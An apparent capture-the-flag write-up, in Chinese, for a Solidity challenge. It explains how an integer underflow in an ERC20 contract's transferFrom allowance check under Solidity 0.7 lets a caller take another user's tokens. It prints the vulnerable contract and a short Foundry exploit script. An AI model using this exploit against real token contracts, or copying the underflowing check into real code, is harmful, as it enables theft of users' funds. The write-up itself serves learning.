

## Under the flow

### 目标：

成功增加自己钱包的余额

```solidity
pragma solidity ^0.7.0;

import {ImprovedERC20} from "../src/ImprovedERC20.sol";
import {console} from "forge-std/console.sol";
import {Script} from "forge-std/Script.sol";

contract IsSolved is Script {
    function run() external view {
        ImprovedERC20 erc20 = ImprovedERC20(vm.envAddress("ImprovedERC20"));
        address user = vm.envAddress("USER");

        if (erc20.balanceOf(user) > 0) {
            console.log("is-solved:true");
        } else {
            console.log("is-solved:false");
        }
    }
}
```

### 思路：

`otherUser` 地址由题目给出。

部署的时候给 `otherUser` 地址转账 100 ether，刚开始看到 `approve` 和 `transferFrom` 函数，以为是先授权再转账。但是看 `approve` 的 `msg.sender` 无法设定为 `otherUser` 地址，所以无法授权。

又看了一眼题目，是下溢。观察合约源码，版本为 `^0.7.0`，下溢漏洞在这个版本确实存在。在 `transfer` 函数中，只能由调用者向其他合约转账，而我们不知道 `otherUser` 地址里的函数，因此只能去看 `transferFrom` 函数。

`transferFrom` 函数可以把 `otherUser` 的钱转到别人的账户，但是需要 `approve` 授权。结合之前的分析，无法使用 `approve` 进行授权，但是这里的检查是：

```solidity
require(
    allowance[_from][msg.sender] - _value > 0,
    "Insufficient allowance"
);
```

由于版本问题，`allowance[_from][msg.sender] - _value` 小于 0 时会下溢成一个非常大的数，所以可以满足这个 `require`，把钱转给调用者。

### 源码：

```solidity
pragma solidity ^0.7.0;

import {IImprovedERC20} from "./interfaces/IImprovedERC20.sol";

contract ImprovedERC20 is IImprovedERC20 {
    mapping(address => uint256) public override balanceOf;
    mapping(address => mapping(address => uint256)) public override allowance;
    address public override owner;

    string public override name;
    string public override symbol;
    uint8 public override decimals;

    constructor(
        string memory _name,
        string memory _symbol,
        uint8 _decimals,
        uint256 _initialSupply
    ) {
        name = _name;
        symbol = _symbol;
        decimals = _decimals;
        owner = msg.sender;
        balanceOf[msg.sender] = _initialSupply;
    }

    function transfer(
        address _to,
        uint256 _value
    ) external override returns (bool) {
        require(balanceOf[msg.sender] >= _value, "Insufficient balance");
        balanceOf[msg.sender] -= _value;
        balanceOf[_to] += _value;
        return true;
    }

    function transferFrom(
        address _from,
        address _to,
        uint256 _value
    ) external override returns (bool) {
        require(balanceOf[_from] >= _value, "Insufficient balance");
        require(
            allowance[_from][msg.sender] - _value > 0,
            "Insufficient allowance"
        );
        balanceOf[_from] -= _value;
        balanceOf[_to] += _value;
        allowance[_from][msg.sender] -= _value;
        return true;
    }

    function approve(
        address _spender,
        uint256 _value
    ) external override returns (bool) {
        allowance[msg.sender][_spender] = _value;
        return true;
    }

    function mint(uint256 _value) external override {
        require(msg.sender == owner, "Only owner can mint");
        balanceOf[msg.sender] += _value;
    }

    function burn(address _who, uint256 _value) external override {
        require(balanceOf[_who] >= _value, "Insufficient balance");
        balanceOf[_who] -= _value;
    }
}
```

```solidity
pragma solidity ^0.8.13;

import {ImprovedERC20} from "../src/ImprovedERC20.sol";
import {Script} from "forge-std/Script.sol";
import {console} from "forge-std/console.sol";

contract Deploy is Script {
    function run() external {
        vm.startBroadcast();

        ImprovedERC20 erc20 = new ImprovedERC20(
            "Improved ERC20",
            "IMPERC20",
            18,
            100 ether
        );

        address otherUser = address(uint160(vm.envAddress("USER")) + 1);
        erc20.transfer(otherUser, 100 ether);

        console.log("address:ImprovedERC20", address(erc20));
        console.log("address:Other_User", address(otherUser));
    }
}
```

### POC：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import {Script} from "forge-std/Script.sol";

interface ImprovedERC20 {
    function transferFrom(address _from, address _to, uint256 _value) external returns (bool);
}

contract Attack is Script {
    ImprovedERC20 improvedERC20 = ImprovedERC20(0x78aC353a65d0d0AF48367c0A16eEE0fbBC00aC88);
    address otherUser = 0x34788137367a14F2C4D253f9A6653A93aDf2D235;

    function run() external {
        vm.startBroadcast();

        improvedERC20.transferFrom(otherUser, msg.sender, 1);

        vm.stopBroadcast();
    }
}
```


